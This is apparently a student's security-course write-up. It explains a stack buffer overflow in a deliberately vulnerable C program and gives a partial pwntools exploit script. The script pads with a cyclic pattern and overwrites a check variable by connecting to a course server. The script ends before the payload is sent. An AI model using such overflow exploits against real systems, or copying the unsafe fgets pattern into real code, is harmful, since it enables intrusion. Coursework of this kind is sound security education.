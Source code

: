 # Inf226

## Assignment 1
Stack explotation and sql injection


### 0x01
```C
#include <assert.h>
#include <stdio.h>
#include <stdlib.h>

int main(int argc , char **argv){

char buffer[32];
int32_t check = 0xdeadbeef ;

printf("Try to get past me!\n");
fflush(stdout);

assert(fgets(buffer, 1024, stdin)!= NULL);

if(check == 0xc0cac01a){
  printf("Congratulations, you win!\n");
  fflush(stdout);
  system("cat flag.txt");
}
else {
  printf("You lose! Bye.\n");
}

return 0 ;
}
```
#### Description of the vulnerability

C language has some functions in it's libraries that can produce several buffer overflow vulnerabilities. In this case we have a buffer of 32 bytes and a 8 bytes variable. The problem resides when the program calls to fgets function with first argument the 32 bytes buffer but the second argument indicates that the buffer at the first argument has 1024 bytes of lenght and because of this I can make the buffer overflow attack overwriting the value of the variable which name is check.

#### Python script using pwntools

Here is the exploit used to get the flag with comments about why I chose the offset, then I create the cyclic and then I add the value that I want to overwrite the var check in little endian and send it to the server. I will receive the data in out_1.txt that is upload linked below as well.

```Python
#!/usr/bin/python2
import pwn
from struct import *


desired_offset = 40 #thanks to gdb we can know the offset between rbp and rsp that is 40
c = pwn.remote('shepherd.ii.uib.no', 9001)



buf = ""
buf = pwn.cyclic(40)
buf += "\x00\x00\x00\x00\x1a\xc0\xca\xc0" #we add little endian c0cac01a

```